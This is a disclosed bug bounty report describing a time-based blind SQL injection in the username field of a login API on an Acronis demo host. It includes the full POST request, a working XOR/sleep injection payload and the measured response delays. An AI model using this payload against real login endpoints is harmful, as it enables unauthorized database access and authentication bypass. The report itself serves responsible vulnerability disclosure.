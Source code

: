# SQL injection in https://demor.adr.acronis.com/ via the username parameter

## Report Details
- **Report ID**: 1436751
- **URL**: https://hackerone.com/reports/1436751
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-12-27T16:10:36.479Z
- **Disclosed**: 2024-08-28T09:01:45.322Z

## Reporter
- **Username**: mmg
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
I have discovered a SQL injection in https://demor.adr.acronis.com/  using the POST request via the username parameter.
Using the Repearter in Burpsuite I have submitted the following POST request:

POST /ng/api/auth/login HTTP/2
Host: demor.adr.acronis.com
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Referer: https://demor.adr.acronis.com/
Cookie: PHPSESSID=bsrq24l7g5fmth5b683v2b3gu4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 148
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36

{"username":"0'XOR(if(now()=sysdate(),sleep(35),0))XOR'Z","id":"27","password":"cc4226104294e44c5cec9f31cb6de7fa4597e4321b277f4e4b78c3a0ff980956"}

Which resulted in a 35 seconds delayed response (one of the print screens, named 35 captured this).


Using various values for the sleep function you get various time responses. 

0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.336
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.332
0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z => 3.352
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.327
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.337

I have attached two print screens from burp showing 16 and 35 seconds responses that were used in the payloads.

## Impact

An attacker can use SQL injection it to bypass a web application's authentication and authorization mechanisms and retrieve the contents of an entire database.
This can also be used by an attacker to execute OS commands, which may then be used to escalate an attack even further.

## Attachments
- 16.png
- 35.png

